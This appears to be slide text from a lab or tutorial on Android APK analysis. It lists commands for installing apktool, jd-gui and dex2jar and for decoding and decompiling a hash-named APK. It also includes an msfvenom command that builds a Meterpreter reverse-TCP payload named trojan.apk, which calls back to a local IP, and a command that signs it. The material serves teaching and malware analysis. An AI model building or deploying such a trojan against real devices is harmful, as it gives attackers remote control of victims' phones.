

To install the required tools
apt-get install apktool
apt-get install jd-gui
apt-get install dex2jar

To create an apk payload rom scratch
msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.1.114 LPORT=4444 R > /home/kali/Desktop/trojan.apk

To sign an APK
d2j-apk-sign trojan.apk

To install zip archiver
sudo apt-get install p7zip-full p7zip-rar
7z e files.7z

To decode an APK file
apktool d 5ec214704b63d93181932d389f4ed76bd730bd05e912518a1357a413d6fa96b1.apk
cd 5ec214704b63d93181932d389f4ed76bd730bd05e912518a1357a413d6fa96b1

To decompile an classes.dex file
d2j-dex2jar 5ec214704b63d93181932d389f4ed76bd730bd05e912518a1357a413d6fa96b1.apk